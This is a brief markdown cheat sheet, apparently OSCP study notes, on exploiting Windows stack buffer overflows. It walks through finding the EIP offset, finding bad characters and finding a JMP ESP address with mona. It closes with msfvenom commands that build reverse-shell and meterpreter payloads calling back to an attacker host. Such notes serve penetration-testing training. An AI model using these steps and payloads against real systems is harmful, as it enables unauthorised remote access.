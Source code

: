 # BO

## Finding the offset

for some cyclic pattern of length eg. 1000:
`msf-pattern_create -l 1000`
`msf-pattern_offset -l ${LENGTH} -q ${EIP_VALUE}`

## Finding bad chars

`!mona config -set workingfolder ${workdir}`


`!mona bytearray -b "\x00"`


`!mona compare -f C:\mona\oscp\bytearray.bin -a ${ESP}`

```
bad chars =
  "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
## Finding a jump point

Find modules without protection settings:
`!mona modules`

`!mona find -s "\xff\xe4" -m ${DLL}`
This gives a list of addresses that may allow us to jump to our own payload 
(for targeting the executable, use `-e`)


Or use
```!mona jmp -r esp -cpb "${bad_chars}"``` 


msvvenom command for generating payload:
```msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=6666 EXITFUNC=thread -f c -a x86 -b "\x00"```



or a meterpreter shell:

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=6666 EXITFUNC=thread -f c -a x86 -b "\x00\x01\x03"```

for a python payload, use `-f python` and set variable name `-v payload`

```msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=6666 EXITFUNC=thread -f c -a x86 -b "\x00\x01\x03" -v payload``` 

